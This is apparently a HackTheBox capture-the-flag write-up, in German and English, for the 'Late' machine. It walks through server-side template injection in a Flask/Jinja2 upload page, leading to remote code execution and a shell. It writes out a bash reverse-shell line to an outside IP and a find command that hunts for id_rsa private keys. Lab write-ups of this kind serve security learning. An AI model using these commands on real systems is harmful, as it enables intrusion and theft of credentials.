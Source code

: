 Website generated with Flask.
Flask: Flask ist ein in Python geschriebenes Webframework.
Die einzigen Abhängigkeiten sind Jinja2, eine Template-Engine, und Werkzeug, eine Bibliothek zum Erstellen von WSGI-Anwendungen.
Programmiersprache: Python
Jinja2 is used by Python Web Frameworks such as Django or Flask.
Nutzt Template-Engine --> SSTI?
![](images.late.htb.png)
## Test polyglot ssti from cobalt: https://www.cobalt.io/blog/a-pentesters-guide-to-server-side-template-injection-ssti
If it throws an error ssti is succussfull
How to: grab screen area with payload and save it (ssti-cobalt.png).
![](ssti-cobalt-polyglot.png)
![](https://github.com/xenotim/HackTheBox---CTFs/blob/main/Late/screenshots/images.late.htb-upload%20image.png)

Result:
![](https://github.com/xenotim/HackTheBox---CTFs/blob/main/Late/screenshots/ssti-polyglot-response.png)

SSTI payload was succusfull! --> throws error!

Test: {{7*7}} --> 49 if successfull
![](https://github.com/xenotim/HackTheBox---CTFs/blob/main/Late/screenshots/ssti-77.png)

Result: 49 --> injectable
![](https://github.com/xenotim/HackTheBox---CTFs/blob/main/Late/screenshots/ssti-77-result.png)

SSTI remote commands from: https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection
![](https://github.com/xenotim/HackTheBox---CTFs/blob/main/Late/screenshots/ssti%20payload%20rce.png)

## Result
![](ssti id.png)
# getting shell

payload:
![](https://github.com/xenotim/HackTheBox---CTFs/blob/main/Late/screenshots/ssti%20reverse%20shell.png)

make dir www with index.html file:
````
bash -i >& /dev/tcp/10.10.14.5/1111 0>&1

`````

make python http.server on port 80 in the www folder
![](python3 http server on port 80.png)
nc listen on port 1111
![](https://github.com/xenotim/HackTheBox---CTFs/blob/main/Late/screenshots/nc%20shell.png)

look for id_rsa file
````
find / -type f -name id_rsa 2>/dev/null



`````

chmod 600 id_rsa --> ssh to the machine



XXXXXXXXXXXXXXXXXXXXXXXXX
